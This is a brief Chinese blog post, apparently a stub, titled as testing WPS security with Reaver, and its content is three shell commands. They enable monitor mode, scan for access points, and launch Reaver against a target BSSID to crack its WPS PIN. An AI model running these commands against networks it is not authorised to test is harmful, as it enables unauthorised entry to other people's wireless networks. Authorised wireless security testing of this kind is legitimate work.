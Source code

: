 title: 通过 Reaver 测试 WPS 安全性
date: 2015-07-01 20:14:17
tags: [信息技术,开源,Reaver,WPS,安全]
categories: 信息技术
toc: true
---

```sh
airmon-ng start wlan0
airodump-ng wlan0
reaver -i moninterface -b bssid -vv
```
<!-- more -->